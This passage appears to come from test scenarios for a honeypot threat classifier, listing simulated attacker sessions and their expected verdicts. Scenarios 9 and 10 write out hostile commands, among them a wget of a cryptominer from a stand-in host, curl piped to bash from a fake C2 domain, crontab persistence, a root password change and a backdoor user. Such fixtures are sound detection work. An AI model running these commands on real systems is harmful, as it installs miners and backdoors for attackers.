 **Honeypot Activity:**
- Session: `normal_session_3`
- Commands: `ls`, `exit` (benign)
- Duration: 11.2 seconds
- Behavior: Legitimate user with typo in password

**Expected Result:**
- ❌ NOT flagged as malicious (failed_logins ≤ 5)
- Threat Type: N/A (benign)
- Threat Score: Low
- Pattern: Normal user behavior

---

### **Scenario 9: Advanced Payload - Cryptominer** ⛏️
**IP:** `45.146.165.200`  
**Expected Classification:** **Payload-Execution**

**Characteristics:**
- From honeypot logs only
- **4 suspicious commands** (busybox wget, chmod 777, nohup miner, rm cleanup)

**Honeypot Activity:**
- Session: `advanced_payload_1`
- Commands:
  - `/bin/busybox wget http://evil-server.net/cryptominer -O /tmp/miner` ⚠️
  - `chmod 777 /tmp/miner` ⚠️
  - `nohup /tmp/miner -o pool.minexmr.com:4444 &` ⚠️ **CRYPTOMINER**
  - `rm -rf /tmp/miner` (cleanup)
- Outgoing connections: 3 (to mining pool on port 4444)
- Duration: 42.8 seconds
- Behavior: **Cryptomining malware deployment**

**Expected Result:**
- ✅ Flagged as malicious
- Threat Type: **Payload-Execution**
- Threat Score: Critical
- Attack Pattern: Cryptominer with persistence

---

### **Scenario 10: Backdoor Installation** 🚪
**IP:** `91.240.118.172`  
**Expected Classification:** **Payload-Execution**

**Characteristics:**
- From honeypot logs only
- **4 suspicious commands** (curl pipe bash, cron persistence, chpasswd, useradd)

**Honeypot Activity:**
- Session: `backdoor_session_1`
- Commands:
  - `curl -s http://backdoor-c2.org/shell.sh | bash` ⚠️
  - `echo '* * * * * /tmp/.hidden/backdoor' >> /etc/crontab` ⚠️
  - `chpasswd <<< 'root:hacked123'` ⚠️ **PASSWORD CHANGE**
  - `useradd -m -s /bin/bash hacker` ⚠️
- Outgoing connections: 1 (reverse shell on port 31337)
- Duration: 32.5 seconds
- Behavior: **Backdoor with persistence**
